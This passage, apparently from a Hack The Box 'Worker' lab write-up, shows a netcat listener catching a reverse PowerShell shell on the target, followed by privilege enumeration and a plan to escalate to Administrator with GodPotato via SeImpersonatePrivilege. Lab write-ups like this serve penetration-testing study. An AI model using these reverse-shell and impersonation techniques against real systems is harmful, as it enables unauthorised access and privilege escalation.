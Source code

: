 ![Untitled](Worker%20477baccc74f848e5a1ca7fe944d4d4e3/Untitled%2014.png)

I got the shell →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Worker]
└─$ rlwrap nc -lvnp 445                                  
listening on [any] 445 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.203] 50920
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> whoami
whoami
iis apppool\defaultapppool
PS C:\ProgramData> hostname
hostname
Worker
PS C:\ProgramData>
```
{: .nolineno}

I checked the privileges and I got `SeImpersonatePrivilege` Enabled so lets Impersonate this user to Administrator and I also checked `systeminfo` and this system is **Microsoft Windows Server 2019 Standard** so I could use `GodPotato` lets try it here →

```powershell
PS C:\ProgramData> whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== ======================================================iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ===========================================Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
```